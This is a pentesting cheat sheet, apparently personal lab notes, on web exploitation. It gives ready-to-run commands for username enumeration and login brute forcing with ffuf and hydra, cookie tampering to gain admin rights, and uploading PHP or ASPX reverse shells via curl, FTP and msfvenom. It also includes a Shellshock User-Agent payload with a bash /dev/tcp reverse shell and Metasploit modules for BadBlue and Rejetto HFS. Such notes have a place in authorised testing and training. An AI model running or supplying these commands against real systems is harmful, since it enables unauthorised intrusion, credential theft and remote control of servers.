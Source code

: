 # Web Exploitations

## Authentication Bypass

### Username enumeration

If the login or register page tell me a message like this when i try to use a username: "**An account with this username already exists**". We can use some tools to enumerate valid users.

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=X&password=X&cpassword=X" -H "Content-Type: application/x-www-form-urlencoded" -u http://DOMAIN.COM/customers/signup -mr "username already exists"

# -w: specific a list of usernames
# -X: set request method
# -d: specify the parameters with FUZZ par
# -H: set header
# -u: indicate the URL
# -mr: message which indicate that user is already exists
```
{% endcode %}

### HTTP Login Brute Force&#x20;

{% code title="hydra" overflow="wrap" %}
```bash
# first check the source code of the web page
# check the request method (POST,GET,...)
# check the login variable (user, password)
# check the error response in case of invalid creds

# use hydra tool to do login brute force
hydra -L usernames -P passwords IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
{% endcode %}

{% code title="ffuf" overflow="wrap" %}
```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://$URL/login -fc 200

# -w: declare wordlists into variables W1 and W2
# -d: set parameters with the Wordlist declared before
# -fc: positive match, avoid HTTP response 200
```
{% endcode %}



### Logic Flaw

Try to check the logic of these pages/actions for a website to find authentication bypasses:

* Reset Password Logic
* Login page Logic
* Register page Logic



### Cookie Tampering

**Examining and editing the cookies** set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

If we have this cookies in a website:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```

We can change this cookie like this to become a Admin:

```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=true; Max-Age=3600; Path=/
```



## Put file in '/uploads' folder

```bash
#! copy a revshell in php  
cp /usr/share/webshells/php/php-reverse-shell.php .
# or generate a payload 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -o shell.php

# Request to upload a file with revshell
curl http://IP/uploads/ --upload-file php-reverse-shell.php

# Delete file uploaded
curl -X DELETE http://IP/uploads/php-reverse-shell.php
```



## Backdoor Web via FTP

**Required:**

* WebServer connection via FTP
* User permissions to add file in web directory&#x20;

```bash
# Prepare the shell
ls -la /usr/share/webshells/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
# Once we're in a web dir via ftp
put shell.php
```

```bash
# .aspx Payload
## create payload
msfvenom -p windows/shell/reverse_tcp LHOST=ATT_IP LPORT=ATT_PORT -f asp > shell.aspx
## -p: paylaod to use
## LHOST: attacker ip
## LPORT: attacker listener port
## -f: output format

## put payload via ftp (in ftp connection)
put shell.aspx

# set up msfconsole handler
service postgresql start && msfconsole
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST ATT_IP
set LPORT ATT_PORT
```



## Targeting PHP

```bash
# PHP Enum file
/phpinfo.php


# Search vulnerable php version
searchsploit php cgi
## Select a exploit and copy it
searchsploit -m EXPLOIT_ID
vim EXPLOIT_ID
```



## Know vulns

### Shellshock

#### Manual Exploitation

```bash
# Search a .cgi sccript
 
# Run nmap script for shellshock vuln check
nmap -sV $IP --script=http-shellshock --script-args "http-shellshock.uri=/$SCRIPT.cgi"
 
# intercect the request with .cgi script vuln and edit the User-Agent header with Burp Suit
GET /test.cgi
user-Agent: () { : ; }; echo; echo; /bin/bash -c '$CMD'
 
# get a revshell
# edit $CMD field with rev shell (burp)
bash -i >/dev/tcp/$IP/$PORT 0>&1
 
# set listener port in kali machine
nc -lnvp $PORT
```

#### Automatic Explotation

```bash
#start metasploit console with database
service postgresql start && msfconsole
 
#search, conf and run metasploit module
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS IP
set RPORT PORT
set TARGETURI SCRIPT_PATH
exploit
```

### Badblue (2.7)

#### Metasploit Exploitation

```bash
searchsploit BadBlue 2.7

# BadBlue 2.7
service postgresql start && msfconsole
search BadBlue
use exploit/windows/http/badblue_passthru
set RHOSTS IP
show options
exploit
```



### Rejetto (HttpFileServer 2.3)

#### Manual Exploitation

```bash
# Search exploit
searchsploit rejetto
# Copy the script
searchsploit -m 39161
```

1. Read and edit python script (ip\_addr, local\_port)
2. Set listener (nc -nvlp 1234)
3. Set a python web server in a directory where there is nc.exe file (python3 -m http.server 80)\
   -> (/usr/share/windows-resources/binaries)
4. run the script (python3 39161.py IP PORT)

#### Metasploit Exploitation

```bash
service postgresql start && msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS
set TARGETURI
exploit
```
